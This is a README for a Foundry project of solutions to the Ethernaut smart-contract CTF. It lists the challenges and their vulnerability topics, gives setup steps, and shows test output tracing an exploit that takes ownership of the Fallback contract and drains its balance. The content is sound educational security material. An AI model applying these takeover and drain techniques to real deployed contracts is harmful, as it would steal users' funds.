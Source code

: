 # 🔐 Ethernaut CTFs challenges and solutions
Inspired by [ethernaut-x-foundry](https://github.com/ciaranmcveigh5/ethernaut-x-foundry)

## 🛡 Challenges

| N° | Name | Challenge | Solution | Topic |
| -- | ---- | --------- | -------- | ----- |
| 01 | Fallback | [link](https://ethernaut.openzeppelin.com/level/0x6F9cf195B9B4c1259E8FCe5b4e30F7142f779DeA) | [link](https://github.com/leovct/ethernaut/blob/main/test/FallbackExploit.t.sol#L27) | Fallback function |
| 02 | Fallout | [link](https://ethernaut.openzeppelin.com/level/0x40F5513a90fb7e2ac2C3E12A6d16B9279D1e94Ed) | [link](https://github.com/leovct/ethernaut/blob/main/test/FalloutExploit.t.sol#L27) | Typo |
| 03 | CoinFlip | [link](https://ethernaut.openzeppelin.com/level/0xae9677ff69efB3C1B9559C8F2A9ED6a2212148e3) | [link](https://github.com/leovct/ethernaut/blob/main/test/CoinFlipExploit.t.sol#L31) | Pseudo-randomness using block.number and block.timestamp |
| 04 | Telephone | [link](https://ethernaut.openzeppelin.com/level/0x466BDd41a04473A01031C9D80f61A9487C7ef488) | [link](https://github.com/leovct/ethernaut/blob/main/test/TelephoneExploit.t.sol#L35) | Authentication using tx.origin instead of msg.sender |
| 05 | Token |
| ... | ... |
| 21 | Good Samaritan |

## 📌 Set up the project
- Install [Foundry](https://github.com/foundry-rs/foundry#installation)
- Create a new project: `$ forge init`
- Install libraries:
    - Ethernaut challenges: `$ forge install openzeppelin/ethernaut`
    - OpenZeppelin standard contracts: `$ forge install openzeppelin/openzeppelin-contracts@release-v3.4`
- Edit `foundry.toml` and fill in the correct remappings
```toml
[profile.default]
src = 'src'
out = 'out'
libs = ['lib']
remappings = [
    'forge-std/=lib/forge-std/src/',
    'ethernaut/=lib/ethernaut/contracts/',
    '@openzeppelin/=lib/openzeppelin-contracts/',
]
# See more config options https://github.com/foundry-rs/foundry/tree/master/config
```

## 🧪 Run the exploits

### 1. Run a specific test
```sh
$ forge test --match-contract FallbackExploit -vvvv
[⠢] Compiling...
No files changed, compilation skipped

Running 1 test for test/FallbackExploit.sol:FallbackExploit
[PASS] testExploit() (gas: 788447)
Logs:
  Fallback contract owner: 0x185a4dc360ce69bdccee33b3784b0282f7961aea
  New Fallback contract owner: 0x0000000000000000000000000000000000000539
  Exploiter address: 0x0000000000000000000000000000000000000539
  Fallback contract balance: 2
  New Fallback contract balance: 0

Traces:
  [788447] FallbackExploit::testExploit() 
    ├─ [396946] → new FallbackFactory@0x185a4dc360CE69bDCceE33b3784B0282f7961aea
    │   ├─ emit OwnershipTransferred(previousOwner: 0x0000000000000000000000000000000000000000, newOwner: FallbackExploit: [0xb4c79daB8f259C7Aee6E5b2Aa729821864227e84])
    │   └─ ← 1864 bytes of code
    ├─ [24632] Ethernaut::registerLevel(FallbackFactory: [0x185a4dc360CE69bDCceE33b3784B0282f7961aea]) 
    │   └─ ← ()
    ├─ [0] VM::startPrank(0x0000000000000000000000000000000000000539) 
    │   └─ ← ()
    ├─ [257980] Ethernaut::createLevelInstance(FallbackFactory: [0x185a4dc360CE69bDCceE33b3784B0282f7961aea]) 
    │   ├─ [211011] FallbackFactory::createInstance(0x0000000000000000000000000000000000000539) 
    │   │   ├─ [178499] → new Fallback@0x9cC6334F1A7Bc20c9Dde91Db536E194865Af0067
    │   │   │   └─ ← 670 bytes of code
    │   │   └─ ← Fallback: [0x9cC6334F1A7Bc20c9Dde91Db536E194865Af0067]
    │   ├─ emit LevelInstanceCreatedLog(player: 0x0000000000000000000000000000000000000539, instance: Fallback: [0x9cC6334F1A7Bc20c9Dde91Db536E194865Af0067])
    │   └─ ← Fallback: [0x9cC6334F1A7Bc20c9Dde91Db536E194865Af0067]
    ├─ [22687] Fallback::contribute{value: 1}() 
    │   └─ ← ()
    ├─ [427] Fallback::contributions(0x0000000000000000000000000000000000000539) [staticcall]
    │   └─ ← 1
    ├─ [359] Fallback::owner() [staticcall]
    │   └─ ← FallbackFactory: [0x185a4dc360CE69bDCceE33b3784B0282f7961aea]
    ├─ emit log_named_address(key: Fallback contract owner, val: FallbackFactory: [0x185a4dc360CE69bDCceE33b3784B0282f7961aea])
    ├─ [514] Fallback::fallback{value: 1}() 
    │   └─ ← ()
    ├─ [359] Fallback::owner() [staticcall]
    │   └─ ← 0x0000000000000000000000000000000000000539
    ├─ [359] Fallback::owner() [staticcall]
    │   └─ ← 0x0000000000000000000000000000000000000539
    ├─ emit log_named_address(key: New Fallback contract owner, val: 0x0000000000000000000000000000000000000539)
    ├─ emit log_named_address(key: Exploiter address, val: 0x0000000000000000000000000000000000000539)
    ├─ emit log_named_uint(key: Fallback contract balance, val: 2)
    ├─ [7277] Fallback::withdraw() 
    │   ├─ [0] 0x0000000000000000000000000000000000000539::fallback{value: 2}() 
    │   │   └─ ← ()
    │   └─ ← ()
    ├─ emit log_named_uint(key: New Fallback contract balance, val: 0)
    ├─ [4273] Ethernaut::submitLevelInstance(Fallback: [0x9cC6334F1A7Bc20c9Dde91Db536E194865Af0067]) 
    │   ├─ [1279] FallbackFactory::validateInstance(Fallback: [0x9cC6334F1A7Bc20c9Dde91Db536E194865Af0067], 0x0000000000000000000000000000000000000539) 
    │   │   ├─ [359] Fallback::owner() [staticcall]
    │   │   │   └─ ← 0x0000000000000000000000000000000000000539
    │   │   └─ ← true
    │   ├─ emit LevelCompletedLog(player: 0x0000000000000000000000000000000000000539, level: FallbackFactory: [0x185a4dc360CE69bDCceE33b3784B0282f7961aea])
    │   └─ ← true
    ├─ [0] VM::stopPrank() 
    │   └─ ← ()
    └─ ← ()

Test result: ok. 1 passed; 0 failed; finished in 424.83µs
```

### 2. Run all the tests
```sh
$ forge test
[⠢] Compiling...
No files changed, compilation skipped

Running 1 test for test/FallbackExploit.sol:FallbackExploit
[PASS] testExploit() (gas: 788447)
Test result: ok. 1 passed; 0 failed; finished in 401.67µs

Running 1 test for test/FalloutExploit.sol:FalloutExploit
[PASS] testExploit() (gas: 767402)
Test result: ok. 1 passed; 0 failed; finished in 400.21µs
```

## Lint the files using [Solhint](https://github.com/protofire/solhint)
`$ solhint 'src/*.sol' 'test/*.t.sol'`
